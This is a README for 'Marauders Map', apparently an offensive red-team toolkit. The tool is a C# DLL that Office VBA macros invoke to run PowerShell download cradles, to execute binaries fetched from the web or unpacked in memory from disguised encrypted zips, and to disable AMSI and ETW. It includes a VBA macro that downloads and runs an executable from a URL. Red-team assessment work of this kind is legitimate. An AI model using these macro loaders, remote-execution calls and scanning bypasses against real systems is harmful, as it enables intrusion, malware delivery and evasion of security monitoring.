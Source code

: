 # Marauders Map
The internal attacker toolkit heavily inspired by the folks of MDSec and their [SharpPack](https://www.mdsec.co.uk/2018/12/sharppack-the-insider-threat-toolkit/), highly recommend checking that post out.
<br>
The Marauders Map is meant to be used on assessments where you have gained GUI access to an enviornment. 
<br>
The Marauders Map is a DLL written in C#, enriched by the DllExport project to export functions that can serve as an entrypoint of invocation for unmanaged code such as rundll32.

Corresponding blogpost: https://blog.nviso.eu/2021/04/27/i-solemnly-swear-i-am-up-to-no-good-introducing-the-marauders-map/

## Capabilities
The power of the Marauders Map is in it's compatibility with the office suite, Marauders map is capeable of the following functionality:

* Run powershell commands such as whoami, or even full-fleged downloadcradles a la IEX(New-Object ... ) 
* Run powershell scrips from within an encrypted zip, unpacking it completely in memory
* Run C# binaries from within an encrypted zip, unpacking it completely in memory
* Run C# binaries fetched from the internet

It also has the functionality to patch AMSI and ETW, although you'll have to bring your own bypasses.


## Usage:
The DLL has one exported function called `ISolemnlySwearIAmUpToNoGood` this is the magic function you'll want to leverage as this will return a new `maraudermap` class. 

You can leverage the maraudermap like this in VBA macro format: 

```
Private Declare PtrSafe Function ISolemnlySwearIAmUpToNoGood Lib "<PATH TO YOUR COMPILED DLL WITH CORRECT OFFICE ARCHITECTURE>" () As Object

Sub test()
Dim MM As Object
Dim run

Set MM = ISolemnlySwearIAmUpToNoGood()
run = MM.RunBinaryFromWeb("https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.5_Any/Watson.exe?raw=true", "G:\watsonexcel.txt", "", False, False)
End Sub

```

## Marauder Map Functions


The `RunBinaryFromEncryptedZip` function runs a binary from an encrypted zip. It should be noted that the zip does not necessarily have to be a .zip, the zip can have any name and extension, for example redteamfit.txt and the functionality will still work. 
<br>
This function has some parameters to take into account:

* zip - this needs to point to the zip location on disk
* password - the password for the encrypted zip
* outfile - the file where the output of the binary will write to
* binName - the name of the binary you want to run in the zip, the zip can contain multiple binaries, for example [Flangviks's entire sharpcollection](https://github.com/Flangvik/SharpCollection)
* arguments - arguments you want to feed to the binary, delimeter is a space
* nomoretracing - boolean to disable ETW, **needs your own ETW bypass  **
* bypassAntiMalwareScanningInterfaceForSharpies - boolean to disable AMSI **needs your own bypass**



The `RunBinaryFromWeb` function runs a binary directly from the web.
<br>
This function has some parameters to take into account:

* url - the url that points to the **direct** download of the PE
* outfile - the file where the output of the binary will write to
* arguments - arguments you want to feed to the binary, delimeter is a space
* nomoretracing - boolean to disable ETW, **needs your own ETW bypass  **
* bypassAntiMalwareScanningInterfaceForSharpies - boolean to disable AMSI **needs your own bypass**

The `RunPowerShellScriptFromEncryptedZip` function runs a poweshell script from an encrypted zip. It should be noted that the zip does not necessarily have to be a .zip, the zip can have any name and extension, for example redteamfit.txt and the functionality will still work. <br>
This function has some parameters to take into account:

* zip - this needs to point to the zip location on disk
* password - the password for the encrypted zip
* outfile - the file where the output of the script will write to
* scriptName - the name of the script you want to run in the zip, the zip can contain multiple scripts, for example [ShitSecure's powersharppack collection](https://github.com/S3cur3Th1sSh1t/PowerSharpPack/tree/master/PowerSharpBinaries)
* arguments - arguments you want to feed to the scipt, delimeter is a space
* bypassLogging - boolean to disable ETW, **needs your own ETW bypass  **
* bypassAntiMalwareScanningInterface - boolean to disable AMSI **needs your own bypass**


The `RunPowerShellCommand` function runs powershell, simple as that. <br>
This function has some parameters to take into account:

* command - the command you want to run, could be beneign such as whoami or could be a full downloadcradle
* outfile - the outfile where the powershell result will write itself to.
* bypassLogging - boolean to disable ETW, **needs your own ETW bypass  **
* bypassAntiMalwareScanningInterface - boolean to disable AMSI **needs your own bypass**
